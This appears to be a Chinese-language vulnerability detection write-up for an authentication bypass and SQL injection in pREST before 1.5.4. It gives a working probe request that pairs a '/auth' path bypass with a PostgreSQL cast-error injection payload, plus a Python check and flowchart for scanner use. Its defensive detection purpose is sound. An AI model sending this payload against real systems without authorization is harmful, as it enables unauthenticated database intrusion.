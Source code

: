 # pREST < 1.5.4 认证绕过与SQL注入漏洞（prest-sqli-auth-bypass）检测说明

## 漏洞简介

pREST 1.5.4 之前版本存在认证绕过与SQL注入漏洞。由于JWT白名单配置错误，攻击者可绕过认证并通过特定路径注入SQL语句，获取数据库敏感信息。

## 影响范围

- 产品：pREST
- 影响版本：< 1.5.4
- CVE编号：无（社区编号 prest-sqli-auth-bypass）
- 危害等级：Critical

## 漏洞原理

JWT白名单配置采用正则表达式后，攻击者可访问包含`/auth`的任意路径绕过认证。结合SQL注入payload，可在无需授权的情况下注入SQL语句，触发数据库报错并泄露信息。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，路径中包含`/auth`以绕过认证。
2. 服务器端未对路径和参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回特征报错信息。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /{database}/information_schema".tables)s%20where%201=version()::int--/auth HTTP/1.1
Host: target.com
```

- 路径中`/auth`用于绕过认证，SQL注入payload触发PostgreSQL类型转换报错。

### 预期响应与交互

- 响应体需包含`pq: invalid input syntax for type integer: "PostgreSQL `。
- Content-Type为`application/json`。

### 判定逻辑

```python
def is_vulnerable(response):
    if 'pq: invalid input syntax for type integer: "PostgreSQL ' in response.text and 'application/json' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带/auth的SQL注入GET请求] --> B[接收HTTP响应]
    B --> C{响应体含PostgreSQL类型报错?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为application/json?}
    D -- 否 --> F
    D -- 是 --> G[判定存在认证绕过与SQL注入漏洞]
```

## 参考链接

- [GitHub Advisory - GHSA-wm25-j4gw-6vr3](https://github.com/advisories/GHSA-wm25-j4gw-6vr3) 